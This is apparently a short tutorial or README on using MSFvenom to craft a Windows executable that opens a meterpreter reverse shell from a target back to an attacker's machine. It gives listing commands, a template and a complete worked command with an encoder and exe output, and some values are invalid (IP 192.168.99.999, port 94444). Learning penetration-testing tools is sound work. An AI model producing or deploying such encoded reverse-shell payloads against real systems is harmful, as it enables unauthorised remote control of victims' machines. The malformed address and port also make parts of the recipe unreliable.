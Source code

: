 To gain access to the TARGET remote machine, we have to create the malware which will grant our ATTACKER machine access to exploit processes on the TARGET machine.

To craft the malware, we make use of the MSFvenom commands.

**MSFvenom** is a penetration testing tool used to create payload for exploitation and post-exploitation.

we make use of the help page of MSFvenom to craft a proper malware.
```
msfvenom -h
```
A proper malware has 4 parts; Payload , Platform, Encoder & File format.

To list out multiple payloads, platforms, encoders on the MSFvenom page, We use the command; 
```
msfvenom -l payloads
```
```
msfvenom -l platforms
```
```
msfvenom -l encoders
```

The general formula for crafting the basic malware will also involve the IP address to be used and a suitable port number
```
msfvenom -p (any payload) LHOST=(kali_IP) LPORT=94444 or 8080) -e (any encoder) --platform (any platform) -f (any file format) > (a unique filename).(file format)
```

For example, here is a command to create a malware with all the elements in the general formula being applied
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.99.999 LPORT=4444 -e x86/call4_dword_xor --platform windows -f exe > meter_revtcp.exe
```
